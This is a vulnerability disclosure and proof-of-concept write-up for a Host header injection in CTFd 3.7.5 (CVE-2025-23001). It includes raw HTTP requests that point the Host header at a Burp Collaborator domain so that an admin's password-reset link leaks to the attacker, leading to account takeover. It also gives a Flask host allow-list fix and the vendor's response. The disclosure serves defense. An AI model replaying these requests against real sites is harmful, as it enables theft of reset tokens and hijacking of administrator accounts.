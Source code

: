 ```yaml
---
date: 2025-05-02 10:15:00
---
```


# POC CVE-2025-23001 CTFd 3.7.5

> Posted by TheWindGhost — 31/01/2025, Updated: 19/04/2025
>
> Report co-authors:
>
> - h??? (PTIT Ho-Chi-Minh City)
> - thD (VLUTE Vinh-Long City)
> - taneora (HUST Ha-Noi City)

The vulnerability was originally discovered by **TheWindGhost** (Security Researcher), who was the first to identify and
confirm the issue. Co-Authors contributed technical write-up, report structuring, and analysis.

---

## 1. Introduction

I first examined the CTFd source code and noticed that it did not secure or filter the Host header. This is where the
vulnerability starts.

![Source Code Snippet 1](https://codetoanbug.com/wp-content/uploads/2025/01/image-8.png)

---

![Source Code Snippet2]([https://codetoanbug.com/wp-content/uploads/2025/01/474813695_585846764257618_3528770934854834765_n-1024x507.jpg](https://codetoanbug.com/wp-content/uploads/2025/01/474813695_585846764257618_3528770934854834765_n-1024x507.jpg))

---

## 2. Host Header Injection

The request looks like this:

```http
- Test Host Header Injection
GET / HTTP/2
Host: 0ghb7us820bm4l90zd2vvixkhbn2bszh.oastify.com
Cookie: delete
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36…
Accept: text/html,application/xhtml+xml,...
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```

I changed the Host header to use my Burp Suite collaborator. If the request is received by my server, this is a bug.

---

## 3. Exploit the Vulnerability & Steps to Exploit Reset Password

I logged into my user account and reset my password. The password reset token was included in the URL. Next, I attempted
to exploit this to reset the admin’s password.

![Reset Link Clicked](https://codetoanbug.com/wp-content/uploads/2025/01/474390321_579415605089692_484539837654316394_n-1024x254.jpg)

I obtained the admin’s email from Discord and sent a request to reset the password:

![Password Reset Form](https://codetoanbug.com/wp-content/uploads/2025/01/474380385_635935822228710_1744942101823595149_n-1024x576.jpg)

```http
- Exploit Host Header Injection
POST /reset_password HTTP/2
Host: zx0aot97jzsllkqzgcjuchejya41ssgh.oastify.com
Cookie: delete
Content-Length: 120
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US,en;q=0.9
Origin: https://
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)…
Accept: text/html,application/xhtml+xml,...
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

email=mail-victim%40gmail.com&_submit=Submit&nonce=fake-937dd2059eb240c25ca77ff5743d4aee
```

And I changed the collaborator domain in the Host header request. Then, I waited for the admin to click the reset link
and successfully hijacked the password reset process.

![Hijacked Password Reset](https://codetoanbug.com/wp-content/uploads/2025/01/475870028_1807425050089165_691369729352272252_n-1024x523.jpg)
![Admin Account Access](https://codetoanbug.com/wp-content/uploads/2025/01/475112839_481305765023487_5607908620398554236_n-1024x469.jpg)
![Screenshot from Dev](https://codetoanbug.com/wp-content/uploads/2025/01/474801751_977215701140368_2091945604793403445_n-949x1024.jpg)

Finally, I successfully exploited the vulnerability. One hour later, I spoke with the developer, but he didn’t
understand that I had hacked and gained access to his account. I explained it to him and asked him to send me a
screenshot of the email.

![Email Screenshot](https://codetoanbug.com/wp-content/uploads/2025/01/474526880_597855626328868_3119515180978439323_n-1024x529.jpg)

---

## 5. Security Fix

```python
- To secure against this vulnerability, add the following code:
import os
import re
from flask import request, abort
from CTFd import create_app

ALLOWED_HOSTS = {
"example.com", # change domain server
"192.168.1.1", # change ip public
}

ALLOWED_PROXIES = {"127.0.0.1", "192.168.1.1"} # change ip public

BLOCKED_HOST_REGEX = re.compile(r"^(localhost|127\.0\.0\.1|0\.0\.0\.0|::1|local)$", re.IGNORECASE)

app = create_app()

@app.before_request
def strict_host_protection():
host = request.headers.get("Host", "").split(":")[0]
forwarded_host = request.headers.get("X-Forwarded-Host", "").split(":")[0]
remote_addr = request.remote_addr
forwarded_for = request.headers.get("X-Forwarded-For", "").split(",")[0].strip()
real_ip = forwarded_for if forwarded_for else remote_addr

if forwarded_host and forwarded_host not in ALLOWED_HOSTS:
print(f"[SECURITY] block: {forwarded_host} -> {real_ip}")
abort(400)

if remote_addr in ALLOWED_PROXIES:
if BLOCKED_HOST_REGEX.match(host) or host not in ALLOWED_HOSTS:
print(f"[SECURITY] block: {host} -> {real_ip}")
abort(400)
else:
abort(400)

if __name__ == "__main__":
app.run(debug=False, host="127.0.0.1", port=4000)
```

---

## 6. Vendor Response

When I reached out to the CTFd vendor, they told me that users need to configure Nginx for security. However, according
to cybersecurity best practices, security should be **built by design and by default**. CTFd does not follow this
policy. MITRE accepted my submission based on this reasoning.

> **Secure by Design and Secure by Default**
>
> - [Beginner’s Guide on Secure byDesign](https://safestack.io/blog/resources/secure-by-design-and-default-a-beginners-guide)
> - [CISA: Secure by Design](https://www.cisa.gov/securebydesign)
